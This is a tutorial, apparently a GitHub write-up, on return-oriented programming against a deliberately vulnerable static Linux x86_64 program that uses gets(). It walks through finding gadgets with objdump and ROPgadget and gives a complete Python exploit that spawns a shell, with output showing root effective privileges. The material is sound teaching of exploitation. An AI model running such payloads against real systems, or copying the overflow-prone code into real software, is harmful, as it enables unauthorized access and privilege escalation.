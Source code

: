 Tools:
1. objdump
2. ROPgadget

Binary protection:
1. Read Only relocations
2. No exec stack
3. No exec heap
4. ASLR

Compilation: Static

Architecture: x86_64

Operating System: Linux (Debian)

#1. Vulnerable binary
For this exemple, I will take a very simple code.
<pre><code class="cpp">#include &lt;stdio.h&gt;

// gcc main.c -fno-stack-protector -Wl,-z,relro,-z,now,-z,noexecstack -static
int main()
{
  char buf[64];

  gets(buf);  // Never use this this function !
  printf("%s", buf);
  return 0;
}
</code></pre>
Like you can see, the vulnerability is near the gets function. As the gets function does not control the size of the input data, we will easily can pass an exploit thanks to the ROP method.

#2. To begin
Our goal is to get a shell. For this, I choose to use the execve syscall.

For remind: 
int execve(const char *filename, char *const argv[], char *const envp[]);  RAX = 59

So we will have:
RDI = "/bin//sh"
RSI = NULL
RDX = NULL
RAX = 59

#3. Payload construction
To construct our payload, we will first need to set RSI (the filename arg of execve) to the string "/bin//sh". (double slash because of 64 bits architecture)
We will use the @data section to store our string. To get the data section address we will use objdump:
<pre><code class="bash">$ objdump -D a.out | grep data
...
Disassembly of section .data:
00000000006b4000 &lt;__data_start&gt;:
...
</code></pre>
Ok, now we need the gadget to set RDI register.

We will need the following gadget:
pop rdi, to set RSI address point to the data section.
pop rsi, to store tempararily the data section address. (because the binary does not contain "mov qword ptr [rdi], rax ; ret" gadget)
pop rax, to store temporarily the string "/bin//sh".
mov QWORD PTR [rsi], rax, to move the string to the address pointed by rsi. (the data section address)

Thanks to ROPgadget, it's very easy to locate the gadget:
<pre><code class="bash">$ ROPgadget --binary a.out| egrep 'pop rsi ; ret|pop rax ; ret|mov qword ptr \[rsi\], rax ; ret|pop rdi ; ret'
...
0x000000000045f491 : mov qword ptr [rsi], rax ; ret
0x00000000004314ad : pop rax ; ret
0x00000000004016b7 : pop rsi ; ret
0x000000000040159b : pop rdi ; ret
...</code></pre>
After multiple test, I found 72 of padding before rewrite RIP.
So our payload will begin like this:
<pre><code class="python">p = 'A'*72
p += pack('&lt;Q', 0x00000000004016b7) # pop rsi ; ret
p += pack('&lt;Q', 0x00000000006b4000) # adress of the data section
p += pack('&lt;Q', 0x00000000004314ad) # pop rax ; ret
p += '/bin//sh'
p += pack('&lt;Q', 0x000000000045f491) # mov qword ptr [rsi], rax ; ret
p += pack('&lt;Q', 0x000000000040159b) # pop rdi ; ret
p += pack('&lt;Q', 0x00000000006b4000) # adress of the data section</pre></code>

So now we just have to repeat this step for the next two arguments.
We will have:
<pre><code class="python">p += pack('&lt;Q', 0x0000000000432d49) # pop rdx ; pop rsi ; ret
p += pack('&lt;Q', 0x0000000000000000) # set rdx to NULL
p += pack('&lt;Q', 0x0000000000000000) # set rsi to NULL</code></pre>
The last step is to set RAX to 59 (the number of execve syscall) and call the "syscall" instruction.
<pre><code class="python">p += pack('&lt;Q', 0x00000000004314ad) # pop rax ; ret
p += pack('&lt;Q', 0x000000000000003b) # Set rax to 59
p += pack('&lt;Q', 0x0000000000454515) # syscall ; ret</code></pre>

#4. Exploitation
The whole payload:
<pre><code class="python">#!/usr/bin/env python2

from struct import pack

p = 'A'*72 # padding

p += pack('&lt;Q', 0x00000000004016b7) # pop rsi ; ret
p += pack('&lt;Q', 0x00000000006b4000) # address of data section
p += pack('&lt;Q', 0x00000000004314ad) # pop rax ; ret
p += '/bin//sh'
p += pack('&lt;Q', 0x000000000045f491) # mov qword ptr [rsi], rax ; ret

p += pack('&lt;Q', 0x000000000040159b) # pop rdi ; ret
p += pack('&lt;Q', 0x00000000006b4000) # address of data section
p += pack('&lt;Q', 0x0000000000432d49) # pop rdx ; pop rsi ; ret
p += pack('&lt;Q', 0x0000000000000000) # set rdx to 0
p += pack('&lt;Q', 0x0000000000000000) # set rsi to 0
p += pack('&lt;Q', 0x00000000004314ad) # pop rax ; ret
p += pack('&lt;Q', 0x000000000000003b) # Set rax to 59
p += pack('&lt;Q', 0x0000000000454515) # syscall ; ret

print p</code></pre>

Now we test:
<pre><code class="bash">$ (python2 rop.py; cat) | ./a.out
id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)</pre></code>
Done.

